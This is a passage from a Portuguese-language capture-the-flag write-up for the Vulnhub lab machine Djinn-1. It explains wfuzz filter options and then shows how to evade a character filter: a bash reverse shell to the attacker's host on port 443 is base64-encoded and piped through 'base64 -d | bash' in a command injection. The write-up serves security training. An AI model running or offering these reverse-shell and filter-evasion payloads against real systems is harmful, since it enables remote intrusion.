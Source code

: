> - -c : Colorido
> - --hh 231 : Aqui tivemos dificuldade em compreender qual o filtro usar. Nesse caso, como ja sabiamos que o "/" e um badchar filtramos para pegar todos os caracteres que sao "273 Ch"
> - -w : wordlist
> - -d : postdata
> - -u : URL


### Shell Reverso


* Os principais caracteres que usamos para um reverse shell estao sendo filtrados. Uma solucao, ja que o "|" nao esta sendo filtrado, e concatenar comandos e converter o nosso codigo malicioso para base64, e descodificar no alvo...


* Primeiramente vamos codificar o nosso codigo malicioso para base64

```bash
rbscheat -i 192.168.150.110:443 -l bash
echo "bash -i >& /dev/tcp/192.168.150.110/443 0<&1" | base64
```

![](/assets/img/Vulnhub/Djinn-1/base64.png)


* Agora vamos montar o comando para decodificar o base64

```bash
echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1MC4xMTAvNDQzIDA8JjEK" | base64 -d 
```

![](/assets/img/Vulnhub/Djinn-1/decode-base64.png)



* Vamos mandar o comando que montamos agr na pagina para pegarmos o shell reverso. Para pegar o shell temos que deixar uma porta escutando na nossa maquina kali

```bash
echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1MC4xMTAvNDQzIDA8JjEK" | base64 -d | bash
```

![](/assets/img/Vulnhub/Djinn-1/shell-reverso.png)
